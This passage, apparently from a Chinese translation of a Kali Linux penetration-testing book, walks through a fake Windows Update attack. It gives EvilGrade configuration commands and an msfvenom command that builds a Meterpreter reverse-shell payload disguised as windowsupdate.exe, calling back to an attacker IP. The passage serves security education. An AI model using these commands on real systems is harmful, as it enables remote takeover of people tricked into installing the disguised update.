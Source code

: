 安全注意：这是 Windows 系统上的一个大的攻击向量。与 Linux 不同，Linux 可以从中央存储库下载所有软件包并通过 GPG 密钥进行验证，而 Windows 应用程序的每个应用程序都依赖于自己的更新程序。这允许这种攻击方式用于许多通常不被认为是攻击向量的常见应用程序。这也是为什么在使用本书所示的 Kali 时，您应该从存储库下载应用程序，避免从其他网站下载和安装单个应用程序的原因。

我们需要为 DNS 服务设置 IP 地址。键入以下命令：

```
show options # Shows EvilGrade's default settings.
set DNSAnswerIp 172.16.24.139 # Set the DNS server's address.     
```

![](img/6d5e47f3-c123-4e39-8924-9099fd387cf9.png)

我们在此攻击中使用 Windows Update 服务（wpad），因此要加载 Windows Update 模块，请输入以下内容：

```
evilgrade>configure winupdate 
```

接下来，我们需要我们的有效载荷。为了构建有效负载，我们将使用 MSFvenom。打开一个新的终端窗口，然后在命令行中键入以下代码。`-p`标志是要使用的有效载荷。我们正在使用`windows/meterpreter/reverse_tcp`有效载荷。因为这是一个反向 shell，所以必须为攻击机器上要调用的负载设置本地主机和本地端口。我们的卡利机器位于`172.16.42.139`。

我们将把我们的端口设置为`445`，一个标准的 Windows 端口，并使用`-o`标志将其保存到`/tmp/windowsupdate.exe`：

```
msfvenom -p windows/meterpreter/reverse_tcp -e LHOST=172.16.42.139 LPORT=445 -f exe -o /tmp/windowsupdate.exe 
```
